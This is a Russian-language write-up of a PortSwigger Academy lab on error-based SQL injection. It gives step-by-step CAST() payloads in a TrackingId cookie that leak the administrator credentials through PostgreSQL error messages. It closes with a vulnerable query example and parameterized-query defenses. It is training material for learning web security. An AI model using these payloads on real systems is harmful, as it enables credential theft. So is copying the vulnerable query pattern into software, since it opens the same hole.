









## Lab: Visible error-based SQL injection

**Платформа:** PortSwigger Web Security Academy  
**Категория:** SQL Injection  
**Сложность:** Practitioner  
**Дата:** 2025-07-17  

---

## TL;DR
Cookie `TrackingId` уязвим к SQL инъекции на базе PostgreSQL.
Приложение показывает детальные сообщения об ошибках БД в ответе.
Через `CAST()` принудительно вызвана ошибка типов которая раскрывает
данные прямо в тексте ошибки. Пароль `administrator` получен
за 2 запроса без перебора.

---

### Ключевая техника — CAST()

```sql
CAST((SELECT username FROM users LIMIT 1) AS int)
```

`username` — строка (`administrator`)
`AS int` — попытка привести строку к числу

PostgreSQL не может привести `administrator` к `int` и выдаёт:
```
ERROR: invalid input syntax for type integer: "administrator"
```

Само значение из БД появляется прямо в тексте ошибки.

---

## Эксплуатация

### Шаг 1 — Обнаружение уязвимости и подробной ошибки

Добавила одинарную кавычку к cookie `TrackingId`:

```
TrackingId=ogAZZfxtOKUELbuJ'
```

В ответе появилось **подробное сообщение об ошибке** которое раскрывает
полный SQL запрос включая значение cookie:

```
ERROR: unterminated quoted string at or near "'"
LINE 1: SELECT * FROM tracking WHERE id='ogAZZfxtOKUELbuJ''
```

Это важная находка — приложение показывает детали БД.
Видно что значение находится внутри одинарных кавычек.



### Шаг 2 — Исправление синтаксиса через комментарий

```
TrackingId=ogAZZfxtOKUELbuJ'--
```

Ошибка исчезла — `--` закомментировал остаток запроса
включая лишнюю кавычку.



### Шаг 3 — Проверка CAST с числом

Добавила подзапрос с CAST:

```
TrackingId=ogAZZfxtOKUELbuJ' AND CAST((SELECT 1) AS int)--
```

Получила новую ошибку:
```
ERROR: argument of AND must be type boolean, not type integer
```

CAST вернул число `1` — а `AND` ожидает булево выражение.
Нужно добавить сравнение.



### Шаг 4 — Добавление оператора сравнения

```
TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT 1) AS int)--
```

Ошибок нет — `1=CAST(...)` возвращает булево значение.
Конструкция работает корректно.

```sql
SELECT * FROM tracking WHERE id='ogAZZfxtOKUELbuJ'
AND 1=CAST((SELECT 1) AS int)--'
-- 1=1 → true → запрос выполняется нормально
```



### Шаг 5 — Извлечение имён пользователей

Заменила `1` на реальный подзапрос к таблице `users`:

```
TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT username FROM users) AS int)--
```

Снова появилась исходная ошибка — запрос усечён из-за ограничения
на количество символов в cookie. Символы `--` в конце не поместились
и запрос стал синтаксически некорректным.



### Шаг 6 — Освобождение места в cookie

Удалила оригинальное значение `ogAZZfxtOKUELbuJ` из cookie
чтобы освободить место для payload:

```
TrackingId=' AND 1=CAST((SELECT username FROM users) AS int)--
```

Новая ошибка от БД:
```
ERROR: more than one row returned by a subquery used as an expression
```

Запрос выполнился но вернул несколько строк — нужно ограничить до одной.



### Шаг 7 — Ограничение до одной строки через LIMIT

```
TrackingId=' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
```

Получила целевую ошибку с данными:

```
ERROR: invalid input syntax for type integer: "administrator"
```

Имя первого пользователя — `administrator` — появилось прямо
в тексте ошибки. PostgreSQL не смог привести строку
`administrator` к типу `int` и вывел само значение в сообщении.



### Шаг 8 — Извлечение пароля

Заменила `username` на `password`:

```
TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--
```

Получила пароль прямо в тексте ошибки:

```
ERROR: invalid input syntax for type integer: "s3cur3p4ssw0rd"
```



### Шаг 9 — Вход под administrator

```
Username: administrator
Password: [пароль из ошибки]
```



---

## Итог

Полная последовательность:

```
ogAZZfxtOKUELbuJ'
→ 500 + детальная ошибка (инъекция + тип БД PostgreSQL)

ogAZZfxtOKUELbuJ'--
→ 200 (синтаксис исправлен)

AND CAST((SELECT 1) AS int)
→ ошибка типа (нужно булево)

AND 1=CAST((SELECT 1) AS int)
→ 200 (конструкция работает)

AND 1=CAST((SELECT username FROM users) AS int)
→ ошибка усечения (cookie слишком длинный)

' AND 1=CAST((SELECT username FROM users) AS int)
→ ошибка "more than one row"

' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)
→ ERROR: invalid input syntax for type integer: "administrator" ✓

' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)
→ ERROR: invalid input syntax for type integer: "пароль" ✓
```

### Почему это быстрее Blind SQLi

```
Blind SQLi:      720 запросов (20 символов × 36 вариантов)
Error-based:     2 запроса (username + password)

Разница в скорости: в 360 раз быстрее
```

### Почему CAST а не другие функции

PostgreSQL выводит значение которое не смог привести к типу
прямо в сообщении об ошибке. Это поведение специфично
для PostgreSQL — другие БД ведут себя иначе:

```
PostgreSQL: ERROR: invalid input syntax for type integer: "значение"
MySQL:      Truncated incorrect INTEGER value: 'значение'
Oracle:     ORA-01722: invalid number
MSSQL:      Conversion failed when converting... to data type int
```

MySQL и MSSQL тоже могут раскрывать данные в ошибках
но синтаксис будет другим.

---

## Защита

```python
# УЯЗВИМО — конкатенация + детальные ошибки:
query = f"SELECT * FROM tracking WHERE id='{tracking_id}'"
cursor.execute(query)
# + приложение показывает детали исключения пользователю

# БЕЗОПАСНО — параметризованный запрос:
query = "SELECT * FROM tracking WHERE id=%s"
cursor.execute(query, (tracking_id,))

# БЕЗОПАСНО — обработка ошибок без деталей:
try:
    cursor.execute(query, (tracking_id,))
except Exception:
    # Логируем ошибку внутри, пользователю показываем общее сообщение
    logger.error("Database error", exc_info=True)
    return "Something went wrong", 500
    # НЕ возвращаем детали ошибки пользователю
```

Дополнительно:
- Никогда не показывать детали SQL ошибок пользователям —
  они раскрывают структуру БД, тип СУБД и сами данные
- Параметризованные запросы исключают инъекцию полностью
- Хранить пароли в виде хэшей (bcrypt, argon2) —
  даже при error-based атаке атакующий получит только хэш
- Минимальные привилегии пользователя БД